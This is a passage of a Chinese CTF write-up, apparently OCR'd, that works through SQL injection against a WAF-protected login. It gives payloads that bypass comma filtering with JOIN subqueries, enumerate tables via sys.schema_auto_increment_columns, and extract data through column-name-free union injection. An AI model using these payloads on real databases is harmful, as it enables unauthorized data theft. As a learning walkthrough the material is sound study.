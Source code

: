 ```
查询列数： {"username":"1\\","password":"union/**/select/**/1,2,3#"}
```

回显是“WAF！！！”因为逗号被过滤了

利用`join`绕过逗号过滤：

```
union select * from ((select 1)A join (select 2)B join (select 3)C)#
//union select * from ((select 1)A join (select 2)B join (select 3)C)#
```

查询成功，列数为3，`2`和`3`分别为username和password的回显位置，就可以替换为子查询，但是最致命的是`or`被过滤了，造成了`information_schema`背锅，所以我们需要[bypass information_schema](https://www.anquanke.com/post/id/193512#h2-3)

查看了MySQL版本为5.7之后`sys.schema_auto_increment_columns`成为了我们的工具

将上述语句的`2`或`3`替换为：

```
SELECT group_concat(table_name) from sys.schema_auto_increment_columns WHERE table_schema = database()
```

表名：`user`

本来列名可以猜解出来，不过因为是非预期所以被ban了，接下来便是[无列名注入](https://zhuanlan.zhihu.com/p/98206699?from_voters_page=true)

替换`select 3`为

```
select i.3 from (select * from ((select 1)A join (select 2)B join (select 3)C) union select * from users)i limit 1
```

回显：`{"code":2,"username":"2","password":"3","result":"SUCCESS"}`

说明和没替换的效果一样，这个道理相当于是利用union查询的特性给他起了一个名字，起的名字是i，`i.3`就是查第三列，看例子：

```
mysql> select * from (select 1,2,3 union select 'a','b','c')i;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| a | b | c |
+---+---+---+
mysql> select i.3 from (select 1,2,3 union select 'a','b','c')i;
+---+
| 3 |
+---+
| 3 |
| c |
+---+
lmit 1`是和`limit 0,1`效果一样，意思是从第0条返回1条结果，我们这样只能查到我们自己起的列名，想要查值就需要`limit 1，1`但是逗号被过滤了，我们可以用`limit 1 offset 1
```
